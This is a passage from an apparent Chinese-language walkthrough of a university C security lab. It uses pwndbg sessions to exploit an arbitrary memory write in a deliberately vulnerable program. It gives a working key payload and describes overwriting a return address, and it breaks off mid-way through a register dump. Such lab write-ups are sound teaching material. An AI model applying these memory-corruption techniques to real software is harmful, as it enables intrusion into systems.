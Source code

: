 ```bash
pwndbg> p &dummy
$1 = (int *) 0x7fffffffe22c
pwndbg> p &dummy-&key1
$2 = -1
```

所以第一阶段的`payload`为`./lab1 -1 0x0309`。

```bash
root@workshop:~/repos/SCUCCS/C-Programming/Security Labs/lab1# ./lab1 -1 0x0309
From: Friend
To: You
Good! Now try choosing keys3,4 to force a call to extract2 and
avoid the call to extract1
```

## key3 & key4

观察得知：

1. 与`process_keys12`一样，`process_keys34`也是一个任意内存写。
2. 除非修改了`data`、`start`或者`stride`，`extract_message1`执行后一定会使得`msg1`不等于空。
3. `start`和`stride`应该不变；不然`extract_message2`的返回值，`msg2`就会被修改
4. `process_keys34`会执行两次；`process_keys34`的修改又是偏移性质，所以两次对内存的修改结果可能不一样。

由此可以得出两个解题思路：

1. 在第一处`process_keys34`时修改返回地址，在`ret`的时候跳转到`msg2 = extract_message2(start, stride);`所在的地址。
2. 在第一处`process_keys34`时将`data`的第10位修改为0。这样我们就可以进入if；进入if后的第二处`process_keys34`又可以通过offset式的修改方法把第10位置为不为0的数，因此可以输出`msg2`。

在这里仅简述第一种做法的方法。

```bash
pwndbg> set args -1 0x0309 4 49
pwndbg> b lab1.c:30
Breakpoint 1 at 0x1247: file lab1.c, line 30.
pwndbg> r
Starting program: /root/repos/SCUCCS/C-Programming/Security Labs/lab1/lab1 -1 0x0309 4 49
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, process_keys34 (key3=0x7fffffffe228, key4=0x7fffffffe22c) at lab1.c:30
warning: Source file is more recent than executable.
30	    *(((int *)&key3) + *key3) += *key4;
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────────────────
*RAX  0x7fffffffe228 ◂— 0x3100000004
 RBX  0x0
*RCX  0x7fffffffe65e ◂— 0x2f3d4c4c45485300
*RDX  0x7fffffffe22c ◂— 0x900000031 /* '1' */
*RDI  0x7fffffffe228 ◂— 0x3100000004
*RSI  0x7fffffffe22c ◂— 0x900000031 /* '1' */
*R8   0x1999999999999999
 R9   0x0
*R10  0x7ffff7f4aac0 (_nl_C_LC_CTYPE_toupper+512) ◂— 0x100000000
*R11  0x7ffff7f4b3c0 (_nl_C_LC_CTYPE_class+256) ◂— 0x2000200020002
*R12  0x7fffffffe368 —▸ 0x7fffffffe617 ◂— '/root/repos/SCUCCS/C-Programming/Security Labs/lab1/lab1'
*R13  0x5555555553a2 (main) ◂— endbr64 
*R14  0x555555557da0 (__do_global_dtors_aux_fini_array_entry) —▸ 0x555555555180 (__do_global_dtors_aux) ◂— endbr64 
*R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
*RBP  0x7fffffffe1f0 —▸ 0x7fffffffe250 ◂— 0x5
*RSP  0x7fffffffe1f0 —▸ 0x7fffffffe250 ◂— 0x5
```